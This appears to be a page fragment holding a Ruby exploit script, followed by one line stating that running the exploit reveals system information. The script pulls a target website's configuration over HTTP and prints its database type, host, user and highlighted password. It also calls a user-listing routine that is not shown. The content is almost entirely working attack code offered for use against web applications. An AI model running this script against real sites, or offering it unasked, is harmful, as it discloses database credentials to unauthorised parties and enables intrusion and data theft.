 ```ruby

def parse_config(root_url, http)
  data_json = fetch_config(root_url, http)
  data = JSON.parse(data_json)['data']
  config = {}
  data.each do |entry|
    if entry['type'] == 'application'
      key = entry['attributes'].keys.first
      config[key] = entry['attributes'][key]
    end
  end
  config
end

def display_config(root_url, http)
  c = parse_config(root_url, http)
  puts Paint['Site info', :red, :bold]
  puts "Site name: #{c['sitename']}"
  puts "Editor: #{c['editor']}"
  puts "Captcha: #{c['captcha']}"
  puts "Access: #{c['access']}"
  puts "Debug status: #{c['debug']}"
  puts
  puts Paint['Database info', :red, :bold]
  puts "DB type: #{c['dbtype']}"
  puts "DB host: #{c['host']}"
  puts "DB user: #{Paint[c['user'], :yellow, :bold]}"
  puts "DB password: #{Paint[c['password'], :yellow, :bold]}"
  puts "DB name: #{c['db']}"
  puts "DB prefix: #{c['dbprefix']}"
  puts "DB encryption #{c['dbencryption']}"
end

begin
  args = Docopt.docopt(doc)
  Paint.mode = 0 if args['--no-color']
  puts args if args['--debug']

  http = HTTPX
  display_users(args['<url>'], http)
  puts
  display_config(args['<url>'], http)
rescue Docopt::Exit => e
  puts e.message
end
```

Running the exploit shows some information of the system
